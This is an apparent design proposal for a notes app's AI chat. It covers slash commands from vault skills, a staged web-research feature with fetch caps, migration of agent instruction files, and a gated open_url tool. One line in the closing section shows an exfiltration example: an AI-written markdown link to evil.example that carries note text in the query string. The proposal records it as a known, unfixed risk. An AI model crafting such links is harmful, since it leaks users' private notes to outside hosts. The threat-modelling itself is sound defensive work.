


# Proposal: chat commands, deep research and web links

## What

Three chat features that share one idea: the user starts a known piece of AI work with one tap or a
few keys, and the app keeps every outside effect visible and gated. They rest on one prerequisite (0):
a vault's skills live in one folder, `.agents/skills/`.

1. **Commands and command chips** ([#64](https://github.com/tillg/karpathy.app/issues/64), feature
   report §1).
   - Typing `/` in the chat composer opens a **command palette**. It lists the vault's skills (`query`,
     `lint`, `ingest`, …) with their descriptions, filtered as the user types.
   - Picking one fills in `/name ` and leaves the cursor for the arguments. Sending runs the skill.
   - An empty chat shows up to four **command chips**. One tap starts a turn.
   - The list is per vault, because skills differ per vault.
2. **Deep research** ([#86](https://github.com/tillg/karpathy.app/issues/86), feature report §23).
   - `/research <topic>` is a command that ships with the app, so every vault has it.
   - It runs in two turns. First the AI scouts a little and writes a plan note with sub-questions, then
     stops. The user edits the note if wanted and replies "go". Only then does the main search run.
   - Useful pages are saved to `Sources/` with their URL. The AI then writes or updates wiki pages
     that cite those sources.
0. **Vaults follow the open `.agents` standard** (prerequisite for 1).
   - Instructions live in `AGENTS.md`, skills in `.agents/skills/`: the layout opencode, Codex, Cursor,
     Gemini CLI and others share, rather than Anthropic's `CLAUDE.md` / `.claude/`. Commands come only
     from `.agents/skills/`.
   - The app moves a vault there **by itself** after every clone, pull and open: `CLAUDE.md` becomes
     `AGENTS.md` (with its `@` imports pasted in), `.claude/skills/` and `.claude/commands/` become
     `.agents/skills/`. `CLAUDE.md` = `@AGENTS.md` and a symlink `.claude/skills → ../.agents/skills`
     keep Claude Code on the Mac working. A notice links to the changes for review.
3. **Open a web page for the user** ([#119](https://github.com/tillg/karpathy.app/issues/119)).
   - A new AI tool, `open_url`, offers a web page to the user ("open the Wikipedia page on X").
   - The chat shows an **Open** chip. The page opens in a new browser tab when the user taps it.
   - The AI may offer only a URL that already appears in the chat, the same rule as web fetch.

## Why

- **Typing prompts on a phone is the slowest step today.** "Please ingest Sources/foo.md following the
  ingest skill" is a paragraph on a phone keyboard. A palette makes every skill one tap or a few
  letters away. Skills the user didn't know the vault had become visible.
- **Research fills wiki gaps with durable pages.** A chat answer disappears in the history. Research
  saves its sources and writes cited pages that Obsidian and later queries reuse. It is a good "start it
  on the train, review it at home" task. The diff review before commit stays the safety net.
- **Pointing the user to a page is a different act from reading it.** Today the AI can only open
  notes. To show the user a page, it has to fetch it (with Web access on, through the server) or write a
  link into its reply. `open_url` says "open this for me" without downloading anything.

## Scope

### Decisions visible to the user

- **Commands are skills, from `.agents/skills/` only.** The palette shows the vault's skills in
  `.agents/skills/<name>/SKILL.md` and the skills that ship with the app (`research`). `.claude/skills/` is
  not read, neither by the palette nor by the AI. Skills that come from a Claude Code plugin (not in the
  vault) don't show; the user copies them into the vault (`.claude/skills/` is fine, the move picks them up).
- **The move to the `.agents` standard is automatic.** After every clone, pull and open, when the vault has
  `CLAUDE.md` (other than `@AGENTS.md`), `.claude/skills/*` or `.claude/commands/*.md`, the app:
  - turns `CLAUDE.md` into `AGENTS.md`, pasting in every `@path` import (one level, inside the vault), and
    rewrites `CLAUDE.md` to `@AGENTS.md`, so Claude Code on the Mac reads the same text;
  - moves every skill folder to `.agents/skills/` and turns every command `foo.md` into
    `.agents/skills/foo/SKILL.md` (`name`, `description` from its frontmatter or first line, body
    unchanged);
  - replaces `.claude/skills/` with a symlink to `../.agents/skills`;
  - in a vault that has `AGENTS.md` but no `CLAUDE.md`, writes `CLAUDE.md` = `@AGENTS.md`.

  It never overwrites: a name (or `AGENTS.md`) that exists already stays as it is and is listed. It is
  skipped while the vault is in conflict. The result is ordinary uncommitted changes, announced by a notice
  "Moved to the `.agents` standard · Review" that also offers deleting files now pasted into `AGENTS.md`.
  Discarding undoes it until the next pull. Only `.claude/` is migrated, not `.cursor/`, `.codex/` or
  others.
- **Not-yet-moved vaults keep their rules.** opencode runs with the narrow flag that ignores only
  `.claude/skills/`; `CLAUDE.md` still applies until the move, and `AGENTS.md` wins after it.
- **Command files.** The issue's "user prompts as The issue's "user prompts as
  `.md` command files in the vault" can't work: opencode reads command files only from `.opencode/`, and
  a vault with `.opencode/` gets no chat (security.md). A user prompt becomes a small skill instead, and it
  syncs through git like any note.
- **Vault skills and app skills look different.** Vault skills are yours (in the vault, synced by git,
  also seen by Claude Code on the Mac); app skills ship with karpathy.app (every vault, app releases only,
  not on the Mac). The palette groups them under "This vault" and "karpathy.app" with a tag per row; chips
  say it in their tooltip and app chips carry an app icon.
- **Same name: the vault skill wins, and says so.** A vault skill named like an app skill (`research`)
  replaces it in that vault; the palette notes "Replaces karpathy.app's `/research`".
- **opencode's own built-ins are hidden.** `init` (writes an `AGENTS.md` for code repos), `review`
  (needs git and subagents, both unavailable) and `customize-opencode` (edits harness config, which is
  denied) never show.
- **No argument hints.** Skills have no argument placeholders. The palette shows the skill's
  description, which can say what to type after the name.
- **A chip fills the composer.** Tapping a chip puts `/name ` in front of whatever the composer holds
  (empty or a draft) and focuses it; the user adds arguments (or none) and taps Send. Sending a bare `/research` at once would make the topic
  arrive in a later plain turn, outside the command, and a bare `/query` wastes a turn.
- **Chip order:** the commands this browser used last in this vault come first, then the rest A–Z, at
  most four.
- **A typed command works too.** `/query what is X` typed by hand runs the `query` skill. A `/word` that
  is no command of this vault (`/etc/hosts is…`) is sent as plain text.
- **The bubble shows what the user typed** (`/query what is X`). The skill text goes to the AI as a
  hidden part of the same message.
- **A new skill shows after the next pull.** A skill added on the Mac appears in the palette after the
  vault pulled it. Today opencode keeps the first list it loaded until it restarts.
- **Research plans first, in a note.** The first `/research` turn reads the wiki and may scout the web a
  little (at most 3 searches and 2 fetches). It writes the **plan note** `Research/<YYYY-MM-DD>-<slug>.md`
  with 3–6 sub-questions as a checklist, and stops. The user edits the note in the editor if wanted and
  replies "go". The run turn reads the note and ticks off what it answered, so a run can continue days
  later. There is no approval dialog (the app never blocks a turn on a prompt).
- **The skill asks before the main run; the backend doesn't enforce it.** A `/research` turn gets the same
  tools as every turn (web per the Web access switch, writes allowed). The plan step and its scouting
  budget are instructions to the model; the hard bound is the web caps.
- **Research stays inside the web caps.** Each turn: at most 20 web searches and 20 web fetches. The skill
  aims at 8 sources per run turn. If questions remain, the AI reports what is left and asks; the user's
  "continue" starts a new turn with fresh caps. Every 20 / 20 block needs a user reply.
- **Research needs Web access on.** With it off, the plan turn has no web tools and says at once that
  the user must turn it on in Settings; it still writes the plan.
- **Sources go to `Sources/`.** One file per useful page, with `url`, `title` and `fetched` in the
  frontmatter and a summary with short quotes, not the full page (copyright, repo size). A URL that is
  already in `Sources/` is not saved twice. Wiki pages cite their sources. If the vault's own
  instructions (`AGENTS.md`, `CLAUDE.md`, an ingest skill) describe sources and pages differently, they
  win for folder, file name and frontmatter. The content stays a summary with short quotes even if the
  vault's rules ask for full text.
- **Research in conflict** can plan and answer, but can't save files, the plan note included (the AI is
  read-only then); the plan goes into the reply instead.
- **An Open chip never opens by itself.** Browsers block `window.open` without a tap, and the tap is also
  the user's check of the host shown on the chip. Like `open_note`, the AI offers a page only when the
  user asks to see one.
- **`open_url` works with Web access off.** The user's own browser loads the page, not the server.

### What `open_url` adds over the fetched chip

| | Fetched chip (`webfetch`) | Open chip (`open_url`) |
|---|---|---|
| What happens | The server downloads the page into the chat (up to 5 MB) | Nothing is downloaded; the user's browser opens the page on tap |
| Needs Web access | yes | no |
| Counts against the fetch cap | yes | no |
| Pages behind a login, videos, apps | fail or come back empty | open with the user's own browser session |
| Meaning | a trace of what the AI read | the AI's answer to "open this for me" |
| URL rule | known URL | known URL |

## Impact

- **No new service, no new secret, no new outbound path.** Research uses the existing `websearch` and
  `webfetch` with their guards.
- **Security:** commands go through the normal prompt path, never opencode's command endpoint, which runs
  shell snippets from skill files (see architecture). `open_url` gets the known-URL check. opencode stops
  reading `.claude/skills/` (one env flag; security.md's "no `OPENCODE_DISABLE_*` flags" rule changes).
  The move writes vault files without a tap, but only after a clone, pull or open, never over an existing
  file, and as uncommitted changes the user reviews.
- **Dependencies:** none new.

## Expected outcome

- Opening a vault with `CLAUDE.md` and `.claude/` skills moves it to `AGENTS.md` + `.agents/skills/` and
  says so; the palette lists the skills, the AI gets the full rules (imports pasted in), and after the
  commit Claude Code on the Mac still works through `@AGENTS.md` and the symlink.
- `/` in the composer lists the vault's skills with descriptions. Picking and sending one runs it.
- An empty chat shows chips that put a command into the composer with one tap.
- `/research <topic>` writes a plan note with sub-questions after at most a few searches. After the
  user's reply it saves sources to `Sources/` with their URLs, writes wiki pages that cite them and ticks
  off the plan note.
- "Open the page about X" gives an Open chip that opens the page in a new tab. A URL the AI built itself
  fails with "URL not in this chat".

## Noticed, not changed

- **Links in AI replies are not checked.** The AI can write `[text](https://evil.example/?d=<note text>)`
  into its reply. It renders as a normal link, and a tap sends the data. This channel exists today, and
  `open_url` doesn't widen it. A follow-up could render reply links whose URL isn't known as plain text,
  or with a warning.
- **The roadmap** ([v1 plan](../v1/v1-plan.md), V1.1) pairs #64 with the bash allowlist and Python skills
  (M5). This change does only the command part. It works for every skill that runs today, and a later M5
  change adds more skills to the same palette.
- **[`remote-changes`](../remote-changes/proposal.md)** owns how the editor reacts when a pull changes
  files. The automatic move writes files right after a pull (e.g. `CLAUDE.md`), so its writes must go
  through the same file-change events; whichever change is applied second wires that up.
- **[`attachments`](../attachments/proposal.md)** changes the same composer (a **+** button) and the same prompt
  path (file parts). Whichever is applied second rebases onto the first; both keep a single `promptAsync` call
  with one `tools` map.
